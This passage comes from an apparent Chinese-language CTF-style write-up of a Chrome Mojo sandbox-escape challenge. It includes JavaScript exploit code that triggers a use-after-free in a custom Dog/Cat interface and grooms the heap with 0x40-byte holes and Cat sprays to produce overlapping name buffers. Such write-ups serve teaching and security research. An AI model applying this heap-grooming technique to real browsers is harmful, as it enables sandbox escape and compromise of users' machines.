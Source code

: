```js
 		// get the FoodInterface in render process
    var foodInterfacePtr = new blink.mojom.FoodInterfacePtr();
    var foodInterfaceRequest = mojo.makeRequest(foodInterfacePtr);
    var foodInterfaceBinding = new mojo.Binding(
        blink.mojom.FoodInterface,
        new FoodInterfaceImpl(),
        foodInterfaceRequest);
```

接着调用对最后一个`Dog`对象调用`cookAndEat`函数。

```js
    // trigger uaf vuln
    dogPtrArr[dogPtrArr.length-1].cookAndEat(foodInterfacePtr)
```

来看关键的`cookAndEat`函数的实现，如下所示。在最开始释放掉最后一个`Dog`对象（利用`ptr.reset()`函数），然后对所有的`Dog`对象的`name`字段分配更大的空间，以空余出`0x40`大小的`hole`来布置堆风水；申请多个`Cat`对象来填充这些释放的内存，最后再为这些`Cat`分配与对象大小相同的`name`。

最终达到的效果是某个`Cat`对象占用了我们释放的`Dog`内存，同时它的`name`指针加上`0x40`刚好是另一个`Cat`对象的`name`指针。

因为漏洞触发`Cat`对象（被释放的`Dog`对象）的`name`指针（`Dog`字段的`weight`字段）加上`FoodInterfaceImpl.prototype.getWeight`返回的`0x40`，指向了下一片内存，刚好是另一个`Cat`对象`name`字段，形成了重叠的内存块。

```js
   	// the getWeight of FoodInterfaceImpl, which  forms a uaf vuln.
    FoodInterfaceImpl.prototype.getWeight = async function() {

        // release the last dogPtr
        dogPtrArr.pop().ptr.reset();

        // change the dog's name size, which will leave the a lot of hole (size 0x40)
        for(let i=0; i<dogPtrArr.length; i++) {
            await dogPtrArr[i].setName('a'.repeat(stringSize*100));
        }

        // create cat to fill the hole
        for(let i=0; i<catCount; i++) {
            let catPtr = (await mojoPtr.createCat()).cat;
            catPtrArr.push(catPtr);
        }

        // create cat name(0x40) to fill the hole, there will be two Neighboring name
        for(let i=0; i<catCount; i++) {
            await catPtrArr[i].setName(id2Str(i, stringSize));
        }

        // return 0x40 will change one cat's name to the Neighboring cat's name, which will form a overlap chunk.
        return {'weight': 0x40};
    };
```

接着就遍历`Cat`对象，去寻找被修改了`name`字段的`Cat`，并找出`name`字段相同的另一个`Cat`，经过下面的代码后，`evil`与`victim`的`name`字段相同。
